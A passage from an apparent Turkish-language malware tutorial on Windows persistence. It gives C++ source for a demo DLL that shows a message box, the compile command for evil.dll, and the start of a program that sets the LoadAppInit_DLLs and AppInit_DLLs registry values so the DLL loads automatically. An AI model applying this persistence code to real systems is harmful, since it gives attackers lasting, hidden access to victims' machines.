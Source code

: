 ```cpp
  MessageBoxA(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    runMe();
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Haydi şunu derleyelim:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![pers](./images/55/2022-05-16_01-21.png){width="80%"}    

Then simple logic: changing the registry key `AppInit_DLLs` to contain the path to the DLL, as a result, `evil.dll` will be loaded.

Ardından basit bir mantık uygulayarak, `AppInit_DLLs` kayıt defteri anahtarını `evil.dll` dosyasının yolunu içerecek şekilde değiştiriyoruz. Bunun sonucunda `evil.dll` otomatik olarak yüklenecektir.    

Bunun için başka bir uygulama olan `pers.cpp` dosyasını oluşturalım:      

```cpp
/*
pers.cpp
windows low level persistense via Appinit_DLLs
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/16/malware-pers-5.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\2022-05-16-malware-pers-5\\evil.dll";
  // activation
  DWORD act = 1;

  // 32-bit and 64-bit
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Windows", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 
    0, REG_DWORD, (const BYTE*)&act, sizeof(act));
    RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 
```